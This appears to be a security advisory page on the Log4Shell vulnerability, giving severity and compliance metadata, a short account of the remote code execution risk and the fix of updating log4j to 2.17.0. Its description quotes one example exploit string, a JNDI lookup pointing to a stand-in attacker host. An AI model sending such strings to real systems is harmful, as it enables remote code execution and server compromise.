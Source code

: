 ```yaml
---
name: Log4Shell
severity: critical
cvss-score: 10.0
cvss-vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
cwe-id: CWE-917
cwe-name: Improper Neutralization of Special Elements used in an Expression Language
  Statement ('Expression Language Injection')
compliance:
  HIPAA: 164.306(a)
  ISO 27001: A.5.33, A.5.34, A.8.3, A.8.9, A.8.12
  owasp10: A3
  pci: 6.5.1
  PCI-DSS v4.0.1: 6.2.4

---            
```


A remote code execution vulnerability (RCE) allows the attacker to execute arbitrary code and operating system commands on the server. In the worst-case scenario, the attacker will be able to fully compromise the server, extract sensitive data, modify the application contents or delete data.

The log4j RCE vulnerability can be easily exploited. All you need is to find a vulnerable version of log4j, an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string (e.g. ${jndi:ldap://attacker.com/a}), and a log statement that logs out the string from that request.

## How to fix

{% tabs log4shell %}
{% tab log4shell generic %}
To fix the Log4Shell vulnerability, you need to update all instances of log4j to version 2.17.0 or above.
{% endtab %}

{% endtabs %}
